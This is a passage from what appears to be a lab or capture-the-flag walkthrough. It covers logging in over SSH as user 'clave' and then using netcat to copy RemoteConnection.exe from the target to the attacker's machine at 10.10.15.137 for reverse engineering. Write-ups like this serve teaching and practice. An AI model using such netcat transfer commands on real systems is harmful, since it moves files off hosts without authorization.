 Okay SSH without decoding the value.

![](img/1__EbH6pkkS__OO__sXj4gjMqjw.png)

And we are in, We got the user `clave`.

### Some reverse-engineering

We have RemoteConnection.exe in `/home/clave/`

let’s Download it with Netcat and do some reverse-engineering with OllyDbg.

Set up a listener on our machine with:

> nc -l -p 1234 > RemoteConnection.exe

and Send the file with:

> nc -w 3 10.10.15.137 < RemoteConnection.exe

And finally, check integrity with the md5sum command.

![](img/1__zff8mvJuWoI5HVOxwpTvaQ.png)

We got the file.

Before debugging let’s run strings on it.

![](img/1__MY3LBsuuBjV6Z9lWBKJuQg.png)

